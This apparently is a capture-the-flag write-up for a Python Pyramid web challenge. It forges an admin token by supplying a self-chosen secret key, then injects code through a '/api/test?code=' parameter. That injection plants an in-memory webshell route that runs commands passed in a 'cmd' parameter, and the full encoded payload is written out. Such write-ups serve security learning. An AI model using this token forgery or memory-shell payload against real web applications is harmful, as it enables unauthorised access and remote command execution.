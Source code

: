 ## 1. bypass authentication
```python
        if len(all_data) == 4: # self-defined key
            key_bytes = all_data[3].replace(' ', '+').encode('utf-8')
            key = base64.b64decode(key_bytes)  # bytes
```
we can use our self-difined secret_key:
```python
token = "eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjMifQ==.MzA5NmZkYzE4MmI2NmExYmRjZThhZmNmMWFjNzc2ZGVmOTFlOTdhMTc0YTE2NTA0MTRhNzU1NDc4NzZlYjAzYw==.SFM=.MTIzNDU2" # 123456
secret = b"123456"
data = '{"username":"admin","password":"123"}'
json_data = json.loads(data)
data_bytes = (json.dumps(json_data) + secret.decode()).encode('utf-8')
print(data_bytes)
hash_object = hashlib.sha256()
hash_object.update(data_bytes)
print(hash_object.hexdigest())
```

## 2. getshell
### 1. sol1
I think we can directly execute command and concat the result into sth.html
like this:
```python
code = "__import__('os').system('ls >>../Match/static/register.html')"
```

### 2. memshell
The most meaningful one I learned from this.
Look at this :
```python
    with Configurator() as config:
        config.add_route('register_front', '/')
        config.add_route('register_api', '/api/register')
        config.add_route('system_test', '/api/test')
        config.add_route('front_test', '/test')
        config.add_view(system_test, route_name='system_test')
        config.add_view(front_test, route_name='front_test')
        config.add_view(register_api, route_name='register_api')
        config.add_view(register_front, route_name='register_front')
        app = config.make_wsgi_app()
```

It's a hint, we can add our `shell` root!
1. add_route
2. add_view
3. commit (don't forget this!)

And we use lambda to create function,
and function should be like this:
```python
def front_test(request):
    return Response(util.read_html('test.html'))
```
that:
1. have parameter `request`
2. have return value `Response(...)`

And we can use `global()['config']` to get config!!

Final exp:
```python
globals()['config'].add_route("shell","/shell")
globals()['config'].add_view(lambda request: Response(__import__('os').popen(request.params['cmd']).read()),route_name = "shell")
globals()['config'].commit()
```

payload
```python
http://webvm:6543/api/test?code=globals%28%29%5B%27config%27%5D%2Eadd%5Froute%28%22shell%22%2C%22%2Fshell%22%29%3Bglobals%28%29%5B%27config%27%5D%2Eadd%5Fview%28lambda%20request%3A%20Response%28%5F%5Fimport%5F%5F%28%27os%27%29%2Epopen%28request%2Eparams%5B%27cmd%27%5D%29%2Eread%28%29%29%2Croute%5Fname%20%3D%20%22shell%22%29%3Bglobals%28%29%5B%27config%27%5D%2Ecommit%28%29&token=eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxMjMifQ%3D%3D%2EMzA5NmZkYzE4MmI2NmExYmRjZThhZmNmMWFjNzc2ZGVmOTFlOTdhMTc0YTE2NTA0MTRhNzU1NDc4NzZlYjAzYw%3D%3D%2ESFM%3D%2EMTIzNDU2
```

visit:
```
http://webvm:6543/shell?cmd=id
```

END